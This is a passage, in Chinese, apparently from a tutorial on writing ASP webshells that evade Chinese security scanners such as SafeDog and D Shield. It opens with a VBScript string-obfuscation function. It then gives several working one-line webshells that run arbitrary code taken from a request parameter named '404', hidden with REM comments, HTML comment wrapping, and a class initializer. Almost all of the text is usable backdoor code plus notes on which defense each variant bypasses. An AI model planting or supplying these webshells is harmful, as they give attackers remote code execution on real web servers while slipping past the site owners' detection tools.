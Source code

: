

解密的算法是

```
function gw_jiami(text)
    const key="gw"
    dim str : str=key & text 
    dim str1
    dim str2
    for i=1 to len(str)
        str2=hex(AscW(mid(str,i,1)))
        for j=1 to 4-len(str2)
            str2="0" & str2
        next
        str1=str1 & str2
    next
    gw_jiami=strreverse(str1)
end function
```

# 0x06 注释符

通过一个简单的注释符绕过安全狗还是比较简单的,

```
<%
    a = request("404")
    b = a REM a
    execute(b)
%>        

```


怎么绕过d盾了想了几分钟发现可以这样

```
<%
<!--
    a = request("404")
    execute(a)
-->
%>  

```

# 0x07 类

在php中我们使用类可以很轻松的绕过，但是asp使用类现在d盾看的很紧，首先写个最简单的类

```
<%

Class is404
  Private Sub Class_Initialize
    execute request("404")
  End Sub
End Class

Set X = New is404

%>

```
